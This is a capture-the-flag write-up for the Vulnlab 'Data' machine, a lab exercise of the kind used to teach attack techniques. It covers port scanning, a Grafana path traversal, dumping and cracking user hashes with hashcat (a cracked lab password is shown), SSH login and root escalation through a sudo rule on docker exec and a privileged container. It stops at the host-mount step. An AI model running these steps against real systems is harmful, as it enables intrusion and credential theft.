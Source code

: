 ```yaml
---
title: Data Vulnhab (English)
image: /assets/img/Anexos/Vulnlab.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnhab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Data
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Data](https://wiki.vulnlab.com/guidance/easy/data )

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Data.pdf)





![](/assets/img/Anexos/Máquina%20Data.png)

## Reconnaissance 


```shell
❯ sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.101.106
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 20:45 CEST
Nmap scan report for 10.10.101.106
Host is up (0.21s latency).
Not shown: 63838 closed tcp ports (reset), 1695 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:52:bf:7b:a8:60:29:b7:e6:09:b0:e6:8e:e5:3e:4a (RSA)
|   256 37:a2:cb:57:c3:7a:c3:16:72:ed:e2:59:c4:25:d9:37 (ECDSA)
|_  256 dd:0a:c9:d3:fc:5b:dc:ca:b4:21:7e:91:2c:17:9d:28 (ED25519)
3000/tcp open  http    Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.48 seconds
```
We start the initial enumeration directly with `nmap` and nmap reported only de port 22 and 3000 open, the port 3000 has Grafana executing 

![](/assets/img/Anexos/Máquina%20Data-1.png)

In this case we can see the version which is always very risky so doing some search in Google I could easily find the CVE which is basically a Path traversal: 

## Exploitation 


![](/assets/img/Anexos/Máquina%20Data-2.png)

In order to exploit grafana and knowing that there's a ssh server running, we can get the hashes of grafana database (`grafana.db`) and the crack them. 

![](/assets/img/Anexos/Máquina%20Data-3.png)

In order to reach a better view we can dump the `grafana.db` directly to our hot machine and inspect it using `sqlite3`


```shell
sqlite> select * from user;
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```

After getting the hashes and their salt, also important for the next step, we can use the next tool in order to pass the hash and their respective salt to an hashcat readable format. In this case I used this tool from github:  

> https://github.com/iamaldi/grafana2hashcat


```shell
❯ python3 grafana2hashcat.py hashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[*] Outfile was not declared, printing output to stdout instead.

sha256:10000:cGVwcGVy:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
sha256:10000:cGVwcGVy:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=


[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt
```

Then we crack it, rockyou is enough
```shell
❯ hashcat -m 10900 hashes_hashcat /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             Falling back to OpenCL runtime.

OpenCL API (OpenCL 3.0 CUDA 12.8.97) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #1: NVIDIA GeForce RTX 2060, 4480/5737 MB (1434 MB allocatable), 30MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1029 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

So now we can attempt to connect to ssh as boris, the only user we know: 
```shell
❯ ssh boris@10.10.92.169
boris@10.10.92.169's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul  7 08:55:01 UTC 2025

  System load:  0.0               Processes:              99
  Usage of /:   19.8% of 7.69GB   Users logged in:        0
  Memory usage: 24%               IP address for eth0:    10.10.92.169
  Swap usage:   0%                IP address for docker0: 172.17.0.1


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sun Jan 23 13:11:53 2022 from 10.10.1.254
boris@ip-10-10-10-11:~$ 
```

## Privilege Escalation

As boris we can execute /snap/bin/docker exec * as root:
```shell
boris@ip-10-10-10-11:/$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```

So supposing the container's name is grafana, we can use it as the name of the contaaner: 

```shell
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec grafana whoami
grafana
```
We're good, now the next step is getting root access in the container 

```
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec -u root -it grafana bash
bash-5.1# 
```

Once as root I run `Deepce` and it reported that we hace privilaged access in the container so we can just mount the whole target machine in the docker: 

```bash
mount /dev/xvda1 /mnt/host
```

